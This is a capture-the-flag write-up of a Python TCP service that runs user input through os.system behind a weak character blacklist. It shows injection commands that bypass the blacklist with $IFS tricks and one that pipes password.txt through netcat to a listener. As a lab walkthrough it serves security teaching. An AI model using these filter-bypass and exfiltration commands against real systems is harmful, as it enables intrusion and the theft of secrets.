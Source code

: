 ```yaml
---
title:  "[CTF] Binary Master Lieutenant - 3"
---
```


![Logo](/assets/images/belts-brown.png)


In this post we'll continue with the third level from the [Lieutenant](https://www.certifiedsecure.com/certification/view/37) set of challenges from **Certified Secure Binary Mastery**. We will be dealing with another classic vulnerability - _shell command injection_. I really enjoyed this level and I believe it is quite clever.

To review the previous levels, check the links below:
* [Binary Master: Ensign - Level 1](https://livz.github.io/2016/01/07/binary-master-ensign-1.html)
* [Binary Master: Ensign - Level 2](https://livz.github.io/2016/01/14/binary-master-ensign-2.html)
* [Binary Master: Ensign - Level 3](https://livz.github.io/2016/01/21/binary-master-ensign-3.html)
* [Binary Master: Ensign - Level 4](https://livz.github.io/2016/01/28/binary-master-ensign-4.html)
* [Binary Master: Ensign - Level 5](https://livz.github.io/2016/02/09/binary-master-ensign-5.html)
* [Binary Master: Lieutenant - Level 1](https://livz.github.io/2016/02/16/binary-master-lieutenant-1.html)
* [Binary Master: Lieutenant - Level 2](https://livz.github.io/2016/02/23/binary-master-lieutenant-2.html)

Before we begin, here's a list of resources containing different tricks to bypass filters meant to prevent command injection:
* [OS Command execution](https://github.com/fuzzdb-project/fuzzdb/tree/master/attack/os-cmd-execution)
* [Bypassing bash command injections restrictions](http://thomasforrer.blogspot.co.uk/2014/07/bypassing-bash-command-injections.html)
* [Command Injection Without Spaces](http://www.betterhacker.com/2016/10/command-injection-without-spaces.html)
* [Bash Brace Expansion Cleverness](https://jon.oberheide.org/blog/2008/09/04/bash-brace-expansion-cleverness/)
 
## 0 - Discovery
```python
#!/usr/bin/env python

import sys
import SocketServer
import os
import string
import threading

HOST = '127.0.0.1'
PORT = 9999
PASSWORD = "iknowthepassword"

class SysTCPHandler(SocketServer.BaseRequestHandler):

    def handle(self):
        self.request.sendall('Password: ')
        
        if self.request.recv(1024).strip() == PASSWORD:                    [1]
            self.request.sendall('$ ')
            cmd = self.request.recv(1024)
    
            while len(cmd) > 0:
                os.system(self.filter(cmd))
                self.request.sendall('> output sent to console\n')
                self.request.sendall('$ ')
                cmd = self.request.recv(1024)

    def filter(self, cmd):                                                 [2]
        # We only want people to pass arguments
        bad_chars = " \t<"

        return cmd.translate(None, bad_chars);

if __name__ == '__main__':
    # We don't need this anymore since it's provided by the upstart service
    #os.chroot('/chroot')
    
    try:
        os.setgid(1005)
        os.setuid(1005)
    except OSError, e:
        sys.exit(-1)
    
    server = SocketServer.ForkingTCPServer((HOST, PORT), SysTCPHandler)
    server.serve_forever()
```

Let's spend a few moments to understand how this program works. Notice that upon starting, the program changes its group and user ids to level4 (uid=1005, gid=1005):

```python
    try:
        os.setgid(1005)
        os.setuid(1005)
    except OSError, e:
        sys.exit(-1)
```

There is also an indication that the application will be chroot-ed to **/chroot**. If we inspect this folder, we can see it's owned by root, with no write permissions for other users. That means we'll have a problem - **the python script will not be able to write anything there**:

```
drwxr-xr-x  8 root root  4096 May 12 12:42 chroot
```

Inside this folder we have an interesting file, for which the python script **will have access** - _password.txt_:

```
-rw-r-----  1 root level4   18 May 12 12:36 password.txt
```

After dealing with permissions, the script starts a TCP server listening on port 9999. After checking a hardcoded password at **[1]**, the script will read a command from the user, filter it and then execute it. Filtering is done at **[2]**, based on a blacklist of forbidden characters, including _Space_, _Tab_ and _<_.

## 1 - Vulnerability
 
Although having this blacklist might sound like a good idea (definitely better than nothing), in practice most of the times it is a bad idea to filter known-bad input from the user. Attackers can be very creative.

## 2 - Exploit
So let's see what's the problem. We have two issues:
* First one basically reduces to executing commands without whitespaces. 
* Secondly, we need a way to see the responses.

### Executing commands
The python script executes commands using the following syntax:

```python
os.system(filtered_cnd)
```

According to the [documentation](https://docs.python.org/2/library/os.html#os.system), _os.system_ is implemented by calling the Standard C function **_system()_**. Going further, the [man page](http://man7.org/linux/man-pages/man3/system.3.html) for _system_ function states:

```
       The system() library function uses fork(2) to create a child process
       that executes the shell command specified in command using execl(3)
       as follows:

           execl("/bin/sh", "sh", "-c", command, (char *) 0);
```           

The resources refenreced in the beginning suggest that the **$IFS** environment variable might be a good place to start. After playing with different combinations locally, I've noticed that it works fine, but whenever $IFS is followd by a number or letter, they together get interpreted as a single variable. My workaround was to define more variables when needed. 

So let's see how we can introduce a simple delay, which signifies that the command injection was successful:

```bash
$ python -c 'import os; os.system("T=10&&sleep$IFS$T")'
```

Pasting the same command into the shell of level4 produces a 10-seconds delay - it worked!


### Getting command results

Since there is no possibility to write anything on the disk and also we cannot view the output of our commands, we need to think of another way. Let's be creative. Since this level is a lot about networking, I'll use the Swiss Army Knife **nc** utility to forward any results to me. I'll establish a listener on a port greater than 1024 then trick the filter to accept my command:

```bash
(on a terminal)
$  nc -lvvp 2000

(in the level4 console)
$ MSG=hello&&IP=0&&PORT=2000&&echo$IFS$MSG|nc$IFS-nvv$IFS$IP$IFS$PORT
```

Strangely, however, nothing happens. After some thinking, I realised that the _nc_ program inside the chroot environment is just a symbolic link. Fortunately, **nc.openbsd** is also present in /chroot/bin:

```
$ ls -alh /chroot/bin/nc
lrwxrwxrwx 1 root root 20 May 12 12:36 /chroot/bin/nc -> /etc/alternatives/nc
$ ls -alh /chroot/etc/alternatives/nc
ls: cannot access /chroot/etc/alternatives/nc: No such file or directory
$ ls -alh /chroot/bin/nc.openbsd 
-rwxr-xr-x 1 root root 31K May 12 12:36 /chroot/bin/nc.openbsd
```

Let's see if we can get a simple message back:
![hello](/assets/images/bm8-0.png)

![borat](/assets/images/bm8-1.png)

## 3 - Profit

We can now read the password stored in password.txt, in the root of the chroot environment:

```bash
(in the level4 console)
$ IP=0&&PORT=2000&&cat$IFS/password.txt|nc.openbsd$IFS-nvv$IFS$IP$IFS$PORT

(on the listener)
$ nc -lvvp 2000
Listening on [0.0.0.0] (family 0, port 2000)
Connection from [127.0.0.1] port 2000 [tcp/cisco-sccp] accepted (family 2, sport 51920)
only*******s
```

This concludes the level. in the [next level](https://livz.github.io/2016/03/10/binary-master-lieutenant-4.html) we'll analyse another interestting vulnerability - [Time of check to time of use -TOCTOU](https://en.wikipedia.org/wiki/Time_of_check_to_time_of_use).
